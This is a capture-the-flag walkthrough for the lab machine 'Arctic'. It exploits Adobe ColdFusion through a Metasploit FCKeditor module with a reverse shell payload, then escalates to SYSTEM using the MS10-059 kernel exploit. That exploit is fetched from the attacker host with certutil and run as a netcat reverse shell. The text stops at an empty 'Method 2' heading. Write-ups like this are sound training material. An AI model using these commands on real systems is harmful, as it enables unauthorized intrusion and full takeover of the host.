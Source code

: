 # Arctic

<pre>nmap -p 135,8500,49154 -sV -Pn 10.10.10.11        

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC</pre>

![alt text](<../Images/Arctic #1.png>)

- CFIDE directory stands for ColdFusion Integrated Development Environment
- Directory in Adobe ColdFusion installations that contains various files and resources used by ColdFusion applications

![alt text](<../Images/Arctic #2.png>)

![alt text](<../Images/Arctic #3.png>)

![alt text](<../Images/Arctic #4.png>)

## Method 1 Metasploit

<pre>exploit/windows/http/coldfusion_fckeditor

set RHOSTS

set LHOST 

set LPORT

set PAYLOAD java/jsp_shell_reverse_tcp

set HTTPCLIENTTIMEOUT 150

run

msf6 exploit(windows/http/coldfusion_fckeditor) > exploit</pre>

<pre>C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled



C:\ColdFusion8\runtime\bin>net user
net user

User accounts for \\ARCTIC

-------------------------------------------------------------------------------
Administrator            Guest                    tolis                    
The command completed successfully.</pre>

<pre>C:\ColdFusion8\runtime\bin>net user tolis
net user tolis
User name                    tolis
Full Name                    tolis
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            22/3/2017 9:07:58   
Password expires             Never
Password changeable          22/3/2017 9:07:58   
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   16/5/2024 2:23:36   

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.</pre>

## Windows Exploit Suggester - Privilege Escalation

- Save output from `systeminfo` into sysinfo.txt
- Update the database

<pre>./windows-exploit-suggester.py --update</pre>

<pre>./windows-exploit-suggester.py --database 2024-05-14-mssb.xls --systeminfo sysinfo.txt</pre>

<pre>[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical</pre>

- Use `MS10-059:Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important`

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/README.md

- Transfer to target machine

<pre>python -m SimpleHTTPServer</pre>

<pre>certutil -urlcache -f http://10.10.14.8/MS10-059.exe MS10-059.exe</pre>

- Execute `MS10-059.exe` on target machine

<pre>MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR></pre>

- Setup netcat listener on attacking machine

<pre>nc -nvlp 5555</pre>

<pre>MS10-059.exe 10.10.14.8 5555</pre>

<pre>nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49666
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system</pre>

## Method 2 Manual Exploitation